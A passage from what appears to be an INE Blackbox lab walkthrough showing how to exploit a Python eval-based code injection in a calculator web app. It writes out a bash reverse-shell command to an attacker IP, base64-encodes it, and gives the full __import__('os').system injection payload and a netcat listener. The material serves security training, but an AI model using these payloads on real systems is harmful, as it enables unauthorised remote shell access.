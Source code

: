 Step 11: Preparing the exploit to get a reverse shell session on the target machine.

Checking the IP address of the provided Kali instance:

Command:

ip addr

![](../media/Blackbox%20lab%20INE_51.png)

Notice that there are 2 interfaces (excluding the loopback interface) on the provided Kali instance namely: eth0 and eth1.

The target machine () is on the same network as that of eth1. So we will use the IP of that interface in this exploit:192.196.85.2

Since the/characters in the user payload would be converted to* 1.0 /by theevaluatefunction, we will base64-encode the payload:

Command:

echo 'bash -c "bash -i >& /dev/tcp/192.196.85.2/4444 0>&1"' | base64

![](../media/Blackbox%20lab%20INE_52.png)

Note: Make sure you replace the IP in the above command with the IP of your Kali GUI instance. Otherwise the exploit wouldn't work!

Step 12: Exploiting the RCE to get a reverse shell.

Once the payload has been base64-encoded, start a netcat listener on one of the terminals of the provided Kali instance:

Command:

nc -lvp 4444

![](../media/Blackbox%20lab%20INE_53.png)

Copy the following payload:

Payload:

__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTk2Ljg1LjIvNDQ0NCAwPiYxIgo= | base64 -d | bash")

![](../media/Blackbox%20lab%20INE_54.png)

Note: - Press CTRL+SHIFT+ALT in order to copy the payload to the clipboard of the Kali instance. - Make sure to replace the base64-encoded value in the above payload since the IP address of your Kali GUI instance might be different. If you copy the payload as is, chances are that it might not work due to the same reason.

The above payload decodes the base64 encoded payload we created in the previous step and passes it tobashfor executing the reverse shell payload. Since our payload will be executed by theevalfunction in Python, that's why we are importing Python'sosmodule to execute the desired commands.

Now paste the copied payload to the textbox in the calculator webapp and press the=button to supply the payload to the backend:
